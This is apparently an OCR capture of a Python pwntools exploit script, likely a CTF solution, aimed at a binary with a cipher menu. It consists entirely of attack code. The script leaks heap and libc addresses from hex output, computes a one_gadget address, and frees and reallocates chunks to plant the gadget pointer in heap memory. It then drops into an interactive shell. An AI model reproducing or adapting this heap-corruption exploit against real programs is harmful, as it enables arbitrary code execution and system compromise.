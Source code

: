 ```



    for ii in range(0,16):
            zzz=p.read(3)

            zz=chr(int(zzz[0:2],16))


            st+=zz
            if 'n'in zzz:
                q=1
                break
    if q==0:
        p.read(1)        



ad('66','2','a'*32,'a'*16,str(len(st)),st)
go('66')
p.readuntil('Ciphertext: n')

z=p.readuntil('20 ')
z=chr(0x20)
for i in range(0,7):
    z+=chr(int(p.read(3)[0:2],16))
heap=u64(z)-0x980+0x7b0+0x100-0x850+0x10a0
p.readuntil('11 01 ')
z=p.readuntil('na0 ')
z=chr(0xa0)
for i in range(0,7):
    z+=chr(int(p.read(3)[0:2],16))

libc=u64(z)-4111776
one=libc+0x10a38c
success(hex(libc))
success(hex(heap))




gdb.attach(p)

go('22')
de('22')
de('23')



ad('23','1','a'*32,'a'*16,'160',p64(heap)+'1'*120+p64(one)*4)

success(hex(heap))

success(hex(libc))

p.interactive()
```
